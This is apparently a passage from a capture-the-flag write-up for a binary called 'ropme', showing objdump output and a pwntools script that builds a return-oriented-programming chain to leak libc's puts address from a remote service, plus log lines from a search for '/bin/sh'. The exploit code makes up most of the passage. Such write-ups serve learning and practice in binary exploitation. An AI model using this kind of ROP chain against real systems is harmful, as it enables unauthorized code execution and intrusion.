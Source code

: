 To see the address of puts function:

```bash
objdump -d ropme -M intel  | grep puts
00000000004004e0 <puts@plt>:
  4004e0:       ff 25 32 0b 20 00       jmp    QWORD PTR [rip+0x200b32]        # 601018 <puts@GLIBC_2.2.5>
  40063a:       e8 a1 fe ff ff          call   4004e0 <puts@plt>
```

The right address is `4004e0`. 

We need execute `fflush(0)` again or we will not get the adress in output. It's simple cause we already knew how to use ROP.

```bash
objdump -d ropme -M intel  | grep fflush
0000000000400510 <fflush@plt>:
  400510:       ff 25 1a 0b 20 00       jmp    QWORD PTR [rip+0x200b1a]        # 601030 <fflush@GLIBC_2.2.5>
  400649:       e8 c2 fe ff ff          call   400510 <fflush@plt>
```

And Null address in RDI.

The exploit looks like this for now:

```bash
#!/usr/bin/env python3
from pwn import *
import binascii
import sys

if sys.argv[1] == 'l':
    p = process('./ropme')
else:
    p = remote('206.189.20.127', 32648)
#gdb.attach(p, 'b *main')
payload = b'A' * 72
pop_rdi = p64(0x4006d3)
got_puts = p64(0x601018)
plt_puts = p64(0x4004e0)
payload += pop_rdi
payload += got_puts
payload += plt_puts
payload += pop_rdi
payload += p64(0x00)
plt_fflush = p64(0x400510)
payload += plt_fflush
p.recv()
p.sendline(payload)
leak = binascii.hexlify(p.recv()[:-1][::-1])
print(b'0x' + leak)
leak = p64(int(leak, 16))
print(leak)
p.interactive()
```


[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367